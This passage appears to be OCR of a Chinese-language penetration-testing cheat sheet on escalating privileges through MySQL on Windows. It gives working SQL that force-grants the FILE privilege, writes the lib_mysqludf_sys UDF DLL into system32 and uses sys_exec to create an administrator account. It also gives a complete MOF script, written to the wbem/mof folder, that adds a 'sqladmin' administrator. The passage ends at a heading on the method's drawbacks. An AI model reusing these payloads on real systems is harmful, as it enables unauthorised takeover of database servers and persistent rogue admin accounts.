         1. HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MySQL 注册表中 ImagePath 的值为 mysql 安装目录
        2. my.ini 中 datadir 的值是数据存放目录
        3. UPDATE user set File_priv ='Y';  flush privileges; 强制加 file权限

        ```sql
        USE mysql;
        CREATE TABLE npn(line blob);
        INSERT INTO npn values(load_file('C://xampplite//htdocs//mail//lib_mysqludf_sys.dll'));
        SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
        CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
        SELECT sys_exec("net user npn npn12345678 /add");
        SELECT sys_exec("net localgroup Administrators npn /add");
        ```

- **MOF 提权**

    MOF提权的条件要求十分严苛:
    1. windows 03 及以下版本
    2. mysql 启动身份具有权限去读写 c:/windows/system32/wbem/mof 目录
    3. secure-file-priv 参数不为 null

    ```ini
    #pragma namespace("\\.\root\subscription")

    instance of __EventFilter as
    {
        EventNamespace = "Root\Cimv2";
        Name  = "filtP2";
        Query = "Select * From __InstanceModificationEvent "
                "Where TargetInstance Isa \"Win32_LocalTime\" "
                "And TargetInstance.Second = 5";
        QueryLanguage = "WQL";
    };

    instance of ActiveScriptEventConsumer as
    {
        Name = "consPCSV2";
        ScriptingEngine = "JScript";
        ScriptText =
        "var WSH = new ActiveXObject(\"WScript.Shell\") WSH.run(\"net.exe user sqladmin admin /add&&net.exe localgroup administrators sqladmin /add\")";
    };

    instance of __FilterToConsumerBinding
    {
        Consumer   = ;
        Filter = ;
    };
    ```
    1. 保存为 1.mof,然后 mysql 执行:`select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';`
    2. mof 被执行的话,会帮我们添加一个叫 sqladmin 的用户.

    **关于 Mof 提权的弊端**
